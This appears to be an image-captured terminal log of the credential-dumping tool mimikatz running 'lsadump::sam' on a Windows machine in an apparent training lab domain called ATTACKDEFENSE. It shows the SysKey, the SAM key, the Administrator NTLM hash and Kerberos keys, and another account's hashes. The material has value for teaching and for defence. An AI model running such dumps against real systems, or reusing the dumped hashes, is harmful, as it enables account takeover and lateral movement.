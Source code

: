
```
mimikatz # lsadump::sam
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ed1f5e64aad3727f03522bbddc080d77

* Primary:Kerberos-Newer-Keys *
    Default Salt : ATTACKDEFENSEAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f566d48c0c62f88d997e9e56b52eed1696aead09df3100982bcfc5920655da5d
      aes128_hmac       (4096) : bf0ca9e206e82ce481c818070bef0855
      des_cbc_md5       (4096) : 6d570d08df8979fe
    OldCredentials
      aes256_hmac       (4096) : 69d101a02f3f4648bf9875f10c1cd268d3f500c3253ab862222a9e1bb3740247
      aes128_hmac       (4096) : 3c3fd899f7f004ed44e9e48f868a5ddc
      des_cbc_md5       (4096) : 9b808fb9e0cbb3b5
    OlderCredentials
      aes256_hmac       (4096) : 4cbbe8ad8482ca76952b08cd9103ba91af35c9d8b21a3d49c332e072618a9fa9
      aes128_hmac       (4096) : b18addd75f8a2b106b262c7b5e517623
      des_cbc_md5       (4096) : 7fe0c2a15eb32fcd

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ATTACKDEFENSEAdministrator
    Credentials
      des_cbc_md5       : 6d570d08df8979fe
    OldCredentials
      des_cbc_md5       : 9b808fb9e0cbb3b5


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a1528cd40d99e5dfa9fa0809af998696

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3ff137e53cac32e3e3857dc89b725fd62ae4eee729c1c5c077e54e5882d8bd55
      aes128_hmac       (4096) : 15ac5054635c97d02c174ee3aa672227
```
